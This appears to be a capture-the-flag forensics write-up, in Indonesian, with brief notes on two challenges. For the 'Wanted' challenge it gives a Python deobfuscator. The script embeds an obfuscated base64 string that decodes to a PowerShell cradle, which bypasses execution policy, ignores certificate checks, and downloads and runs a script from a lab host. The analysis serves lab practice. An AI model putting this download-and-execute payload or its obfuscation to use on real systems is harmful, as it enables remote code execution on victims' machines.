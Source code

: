 ## Foren/Frontier
94.237.54.116:52327 akses url docker
![image](https://github.com/user-attachments/assets/7436fe89-3fd9-42f4-a7bf-efba75220510)
base64 encoded flag di bash history

## Foren/Wanted
![image](https://github.com/user-attachments/assets/934a70b8-5b88-4683-9640-fcf2c5f30bee)

Url decode
![image](https://github.com/user-attachments/assets/f7b83bc5-0cfa-4bd3-969b-a5329bac14dc)

Decode vbscript
![image](https://github.com/user-attachments/assets/0a474caa-4b78-4c20-9ce4-a39824e5ce4f)

Donlot vbscript
![image](https://github.com/user-attachments/assets/0348e806-7a3e-44eb-a761-23deca0e084d)

Fungsi ini sus, dia semacam arrange base64 terus diexec sebagai payload, coba deobfus terus decode

```
import base64
def descortinar(data, pattern, replacement):
    """
    Mimics the VBScript `descortinar` function to replace obfuscation patterns.
    """
    return data.replace(pattern, replacement)

# Obfuscated Base64-like string
latifoliado = (
    "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
    "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
    "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
    "CcpKSkpd2FudGVkCgd2FudGVkCg"
)

parrana = "d2FudGVkCg"

# Step 1: Remove obfuscation patterns
decoded_data = descortinar(latifoliado, parrana, "")

# Step 2: Decode the Base64 string
def base64_decode(data):
    try:
        return base64.b64decode(data).decode('utf-8')
    except Exception as e:
        return f"Error decoding Base64: {e}"

# Decode the cleaned string
decoded_payload = base64_decode(decoded_data)

# Display the results
print("Decoded Payload:")
print(decoded_payload)

# Write to file (optional)
```